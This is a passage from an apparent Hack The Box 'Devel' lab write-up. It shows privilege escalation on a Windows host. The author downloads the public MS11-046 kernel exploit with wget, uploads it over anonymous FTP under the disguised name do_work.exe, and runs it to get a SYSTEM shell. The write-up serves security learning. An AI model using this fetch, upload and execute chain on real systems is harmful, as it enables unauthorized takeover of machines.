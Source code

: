 There may be a way to assume the PID 3612 to get the system shell, but I wasn't sure. The other option might be to modify the exploit to upgrade the current shell instead of spawning a new one, but i'm not even sure if that would work, and i'm not much of a dev.

### using MS11-046 to own system
&nbsp;
I decided to proceed with another win32 kernel exploit i found on this fantastic github repo: [GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows](https://github.com/SecWiki/windows-kernel-exploits)

I tried to pick one that looked like it would spawn a shell from the current prompt instead of a new window. After some (OK, much) trial and erorr, I ended up with MS11-046. 

I downloaded the exploit, and transferred it via ftp in binary mode once again:

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe
```

It's important to note (and I found out the hard way, that FireFox (and probably chrome) seem to block or modify the downloads of malicious .exe's (found that out after trying to run several, hence the wget). 

Transfer the file:

```─➤  ftp 10.10.10.5       
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:initinfosec): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> send /home/initinfosec/writeups/HTB/devel/exploits/MS11-049/ms11-046.exe do_work.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
112815 bytes sent in 0.0874 seconds (1.23 Mbytes/s)
ftp> bye
221 Goodbye.


```

and run on the remote shell:

```
C:\inetpub\wwwroot>.\do_work.exe
.\do_work.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```
